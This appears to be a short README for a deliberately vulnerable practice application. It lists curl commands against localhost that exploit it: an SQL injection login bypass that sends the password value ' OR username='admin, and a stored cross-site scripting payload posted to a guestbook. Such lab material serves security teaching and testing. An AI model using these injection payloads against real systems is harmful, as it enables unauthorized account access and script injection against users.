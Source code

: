 A collection of curl commands you can use to exploit the vulnerabilities in the application.

## SQL injection

```bash
# Log in as any user
curl -X POST "http://localhost:8080/api/login" \
  -H "Content-Type: application/json" \
  -d "{\"username\": \"admin\", \"password\": \"' OR username='admin\"}" \
  -v && echo ""
```

## Cross-site scripting

```bash
# Execute a script when the guestbook page is loaded
curl -X POST "http://localhost:8080/api/messages" \
  -H "Authorization: Bearer <token>" \
  -H "Content-Type: application/json" \
  -d "{\"message\": \"<img onLoad=(alert('pwned')) src=\\\"./favicon.ico\\\" />\"}" \
  -v && echo ""
```
